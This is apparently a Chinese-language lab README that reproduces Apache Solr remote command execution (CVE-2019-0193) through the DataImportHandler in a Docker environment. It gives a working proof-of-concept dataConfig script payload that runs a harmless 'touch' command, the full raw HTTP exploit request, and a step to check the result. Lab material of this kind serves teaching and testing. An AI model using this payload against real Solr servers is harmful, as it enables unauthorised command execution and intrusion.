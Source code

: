 # Apache Solr 远程命令执行漏洞（CVE-2019-0193）

漏洞原理与分析可以参考：

- https://mp.weixin.qq.com/s/typLOXZCev_9WH_Ux0s6oA
- https://paper.seebug.org/1009/

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。此次漏洞出现在Apache Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。

## 漏洞环境

运行漏洞环境：

```
docker compose up -d
```

命令执行成功后，需要等待一会，之后访问`http://your-ip:8983/`即可查看到Apache solr的管理页面，无需登录。

## 漏洞复现

首先在页面左侧选择`demo`核心，打开Dataimport面板，开启右侧Debug mode，填入以下POC：

```
<dataConfig>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
          }
  ]]></script>
  <document>
    <entity name="sample"
            fileName=".*"
            baseDir="/"
            processor="FileListEntityProcessor"
            recursive="false"
            transformer="script:poc" />
  </document>
</dataConfig>
```

![](1.png)

点击`Execute with this Confuguration`会发送以下请求包：

```
POST /solr/demo/dataimport?_=1708782956647&indent=on&wt=json HTTP/1.1
Host: your-ip:8983
Content-Length: 613
Accept: application/json, text/plain, */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-type: application/x-www-form-urlencoded
Origin: http://your-ip:8983
Referer: http://your-ip:8983/solr/
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Connection: close

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=demo&dataConfig=%3CdataConfig%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22sample%22%0A++++++++++++fileName%3D%22.*%22%0A++++++++++++baseDir%3D%22%2F%22%0A++++++++++++processor%3D%22FileListEntityProcessor%22%0A++++++++++++recursive%3D%22false%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport
```

执行`docker compose exec solr ls /tmp`进入容器，可见`touch /tmp/success`已成功执行：

![](2.jpg)
